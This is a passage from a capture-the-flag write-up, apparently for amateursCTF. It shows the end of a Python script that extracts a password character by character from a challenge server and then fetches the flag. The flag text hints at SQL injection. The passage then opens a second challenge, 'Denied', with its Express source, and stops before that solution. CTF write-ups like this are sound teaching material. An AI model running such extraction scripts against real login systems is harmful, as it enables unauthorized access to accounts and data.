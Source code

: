 ```python
    else:
        return li_elements[1].text.strip()

# Get the flag with the right id and password
def get_flag(fix_id_password):
    data = {
    'id': fix_id,
    'password': fix_id_password
    }

    res = requests.post(url+endpoint_guess, data=data)
    return res.text

for i in range(32):
    # create a temp id
    temp_id = get_temp_id()
    new_char = get_password_character(temp_id, i)
    fix_id_password = fix_id_password + new_char
    print(fix_id_password)


print(get_flag(fix_id_password))

```

Flag: `amateursCTF{go_union_select_a_life}`

## Denied

### Description

voxal
770 solves / 65 points
what options do i have?
<http://denied.amt.rs>

### Solution

The challenge was easy, we are presented with the following code:

```js
const express = require('express')
const app = express()
const port = 3000

app.get('/', (req, res) => {
  if (req.method == "GET") return res.send("Bad!");
  res.cookie('flag', process.env.FLAG ?? "flag{fake_flag}")
  res.send('Winner!')
})

app.listen(port, () => {
  console.log(`Example app listening on port ${port}`)
})

```
